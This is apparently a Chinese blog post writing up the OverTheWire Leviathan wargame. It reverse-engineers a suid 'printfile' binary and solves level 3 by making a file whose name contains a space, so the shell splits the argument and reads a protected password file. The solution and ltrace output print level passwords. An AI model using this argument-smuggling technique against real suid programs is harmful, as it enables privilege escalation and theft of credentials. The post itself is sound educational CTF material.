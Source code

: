 ```yaml
---
layout: post
title: OverTheWire Leviathan
tags: CTF
---
```

地址: [OverTheWire: Leviathan](http://overthewire.org/wargames/leviathan/).

说实话题目不难，可是从开始做题到做完的时间跨度却有一个多月，人家 rr 却做了一会儿就搞定了，我都在干嘛呢？

完整的笔记在 [这里](https://github.com/LastAvenger/no-silver-bullet/blob/master/ctf/wargame-leviathan/wargame-leviathan.md)，
其中有点意思的是 leviathan3，所以特地摘抄出来：

登入机器后发现家目录有个带 `suid` 权限的可执行文件 `printfile`，属主是 `leviathan3`，用户组是 `leviathan2`，带 `suid` 的程序执行时可以获得和 owner/grouper 相同的权限（euid/egid）。

```text
leviathan2@melinda:~$ ll printfile  
-r-sr-x--- 1 leviathan3 leviathan2 7498 Nov 14  2014 printfile*
leviathan2@melinda:~$ ./printfile 
*** File Printer ***
Usage: ./printfile filename
leviathan2@melinda:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

从字面意思上看，这个程序接受一个文件路径然后把文件的内容显示出来，但是要求它打印 `/etc/leviathan_pass/leviathan3` 却提示 `You cant have that file...`，上 gdb 分析看看。

以下是 `diaasm main` 的结果，假设执行了 `r filename`：

```gas
0x0804852d <+0>:     push   %ebp
0x0804852e <+1>:     mov    %esp,%ebp
0x08048530 <+3>:     and    $0xfffffff0,%esp
0x08048533 <+6>:     sub    $0x230,%esp
0x08048539 <+12>:    mov    0xc(%ebp),%eax           ; argv 参数地址
0x0804853c <+15>:    mov    %eax,0x1c(%esp)          ; argv 保存到 [esp + 0x1c]
0x08048540 <+19>:    mov    %gs:0x14,%eax            ; Thread-Local Storage, 不知道是什么
0x08048546 <+25>:    mov    %eax,0x22c(%esp)
0x0804854d <+32>:    xor    %eax,%eax
0x0804854f <+34>:    cmpl   $0x1,0x8(%ebp)           ; \ argc 和 1 比较，此处 argc 应该为 2
0x08048553 <+38>:    jg     0x804857e <main+81>      ; / argc > 1 则跳 
0x08048555 <+40>:    movl   $0x8048690,(%esp)
0x0804855c <+47>:    call   0x80483d0 <puts@plt>
0x08048561 <+52>:    mov    0x1c(%esp),%eax
0x08048565 <+56>:    mov    (%eax),%eax
0x08048567 <+58>:    mov    %eax,0x4(%esp)
0x0804856b <+62>:    movl   $0x80486a5,(%esp)
0x08048572 <+69>:    call   0x80483b0 <printf@plt>
0x08048577 <+74>:    mov    $0xffffffff,%eax
0x0804857c <+79>:    jmp    0x80485e8 <main+187>

; -> 来自 0x08048553 <+38> 的跳转，以上代码不必分析了
0x0804857e <+81>:    mov    0x1c(%esp),%eax          ; 取出储存的 argv
0x08048582 <+85>:    add    $0x4,%eax                ; 移动到 argv 的第一个参数（从 0 计数）
0x08048585 <+88>:    mov    (%eax),%eax              ; 取出 argv[1] 的值，指向字符串 ‘filename’
0x08048587 <+90>:    movl   $0x4,0x4(%esp)           ; \ 参数二：int amode
0x0804858f <+98>:    mov    %eax,(%esp)              ; | argv[1] 作参数一： char *path
0x08048592 <+101>:   call   0x8048420 <access@plt>   ; / access(argv[1], 4)，成功返回 0
0x08048597 <+106>:   test   %eax,%eax
0x08048599 <+108>:   je     0x80485ae <main+129>     ; 跳
0x0804859b <+110>:   movl   $0x80486b9,(%esp)
0x080485a2 <+117>:   call   0x80483d0 <puts@plt>
0x080485a7 <+122>:   mov    $0x1,%eax
0x080485ac <+127>:   jmp    0x80485e8 <main+187>

; -> 来自 0x08048599 <+108> 的跳转
0x080485ae <+129>:   mov    0x1c(%esp),%eax          ; \
0x080485b2 <+133>:   add    $0x4,%eax                ; | 取得 argv[1]
0x080485b5 <+136>:   mov    (%eax),%eax              ; /
0x080485b7 <+138>:   mov    %eax,0xc(%esp)           ; \ ...: argv[1]
0x080485bb <+142>:   movl   $0x80486d4,0x8(%esp)     ; | char *format: string "/bin/cat %s"
0x080485c3 <+150>:   movl   $0x1ff,0x4(%esp)         ; | size_t size: 511
0x080485cb <+158>:   lea    0x2c(%esp),%eax          ; | 
0x080485cf <+162>:   mov    %eax,(%esp)              ; | char *str
0x080485d2 <+165>:   call   0x8048410 <snprintf@plt> ; / snprintf(str, 511, "/bin/cat %s", argv[1]);
0x080485d7 <+170>:   lea    0x2c(%esp),%eax
0x080485db <+174>:   mov    %eax,(%esp)              ; \
0x080485de <+177>:   call   0x80483e0 <system@plt>   ; / system("/bin/cat filename");
0x080485e3 <+182>:   mov    $0x0,%eax
0x080485e8 <+187>:   mov    0x22c(%esp),%edx
0x080485ef <+194>:   xor    %gs:0x14,%edx
0x080485f6 <+201>:   je     0x80485fd <main+208>
0x080485f8 <+203>:   call   0x80483c0 <__stack_chk_fail@plt>
0x080485fd <+208>:   leave  
0x080485fe <+209>:   ret    
```

可以看到程序接受一个文件路径，先检查对该文件的访问权限，然后执行 shell 命令 "/bin/cat filename"。

问题出在 `access` 函数， man 是这样说的：

> The access() function shall check the file named by the pathname pointed to by the path argument for accessibility according to the bit pattern contained in amode, **using the real user ID in place of the effective user ID and the real group ID in place of the effective group ID.**

而 `suid` 权限改变的只是进程的 `euid`，因此当你执行 `./printfile /etc/leviathan_pass/leviathan3` 的时候，access 函数总是失败的。

但是用 gdb 改变程序的流程也是[**不可行**](http://unix.stackexchange.com/questions/15911/can-gdb-debug-suid-root-programs)的，非 root 的 gdb 调试带 suid 权限的程序时，程序不会获得本来应该有的权限（否则 gdb 就可以任意地改变程序的行为了），即使绕过了 access 函数，你依然会得到一个 `Permission denied`。

到这里我就没辙了，只能看别人的 writeup 了：[OverTheWire Leviathan Wargame Solution 2](https://rundata.wordpress.com/2013/03/27/overthewire-leviathan-wargame-solution-2/)，看完发现脑洞确实不够大。

**Solution:**  

access() 接受的是个字符串参数，而 cat 的参数却是由 shell 处理的，执行 `./printfile "flag here"`，对于 access 函数来说是执行了 `access("flag here", 4)`, 检查对 `flag here` 这个文件的访问权限，而对 cat 来说是这样的 `system("cat flag here")`，因此可以利用这个区别来绕过 access 函数。

```shell
leviathan2@melinda:/tmp$ mkdir slove
leviathan2@melinda:/tmp$ cd slove
leviathan2@melinda:/tmp/slove$ touch 'flag here'    # 带空格的文件名
leviathan2@melinda:/tmp/slove$ ln -s /etc/leviathan_pass/leviathan3 flag
leviathan2@melinda:/tmp/slove$ ls
flag  flag here
leviathan2@melinda:/tmp/slove$ ~/printfile 'flag here'  # access 检测的是刚刚建立的新文件， cat 显示的则是 flag 和 here
Ahdiemoo1j
/bin/cat: here: No such file or directory
```

另外发现了一个新工具 ltrace，能够跟踪库函数的调用，就不用像刚才那样分析整个程序了（后面的题目大多数是过一遍 ltrace 就行了）：

```shell
leviathan2@melinda:~$ ltrace ~/printfile /etc/leviathan_pass/leviathan2
__libc_start_main(0x804852d, 2, 0xffffd6f4, 0x8048600 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)                                       = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2") = 39
system("/bin/cat /etc/leviathan_pass/lev"...ougahZi8Ta
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                            = 0
+++ exited (status 0) +++
```

元旦快乐，希望新的一年不要那么痛苦了。
